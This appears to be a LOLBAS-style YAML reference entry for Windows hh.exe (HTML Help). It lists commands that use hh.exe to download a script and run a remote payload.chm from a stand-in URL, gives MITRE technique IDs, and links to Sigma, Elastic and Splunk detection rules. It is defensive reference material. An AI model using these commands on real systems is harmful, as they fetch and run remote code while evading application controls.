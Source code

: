 ```yaml
---
Name: Hh.exe
Description: Binary used for processing chm files in Windows
Author: 'Oddvar Moe'
Created: 2018-05-25
Commands:
  - Command: HH.exe http://some.url/script.ps1
    Description: Open the target PowerShell script with HTML Help.
    Usecase: Download files from url
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: HH.exe c:\windows\system32\calc.exe
    Description: Executes calc.exe with HTML Help.
    Usecase: Execute process with HH.exe
    Category: Execute
    Privileges: User
    MitreID: T1218.001
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
    Tags:
      - Execute: EXE
  - Command: HH.exe http://some.url/payload.chm
    Description: Executes a remote payload.chm file which can contain commands.
    Usecase: Execute commands with HH.exe
    Category: Execute
    Privileges: User
    MitreID: T1218.001
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
    Tags:
      - Execute: CMD
      - Execute: CHM
      - Execute: Remote
Full_Path:
  - Path: C:\Windows\hh.exe
  - Path: C:\Windows\SysWOW64\hh.exe
Code_Sample:
  - Code:
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/c04bef2fbbe8beff6c7620d5d7ea6872dbe7acba/rules/windows/process_creation/proc_creation_win_hh_chm_execution.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/c04bef2fbbe8beff6c7620d5d7ea6872dbe7acba/rules/windows/process_creation/proc_creation_win_hh_html_help_susp_child_process.yml
  - Elastic: https://github.com/elastic/detection-rules/blob/ef7548f04c4341e0d1a172810330d59453f46a21/rules/windows/execution_via_compiled_html_file.toml
  - Elastic: https://github.com/elastic/detection-rules/blob/61afb1c1c0c3f50637b1bb194f3e6fb09f476e50/rules/windows/execution_html_help_executable_program_connecting_to_the_internet.toml
  - Splunk: https://github.com/splunk/security_content/blob/bee2a4cefa533f286c546cbe6798a0b5dec3e5ef/detections/endpoint/detect_html_help_spawn_child_process.yml
  - Splunk: https://github.com/splunk/security_content/blob/bee2a4cefa533f286c546cbe6798a0b5dec3e5ef/detections/endpoint/detect_html_help_url_in_command_line.yml
Resources:
  - Link: https://oddvar.moe/2017/08/13/bypassing-device-guard-umci-using-chm-cve-2017-8625/
Acknowledgement:
  - Person: Oddvar Moe
    Handle: '@oddvarmoe'
---
```


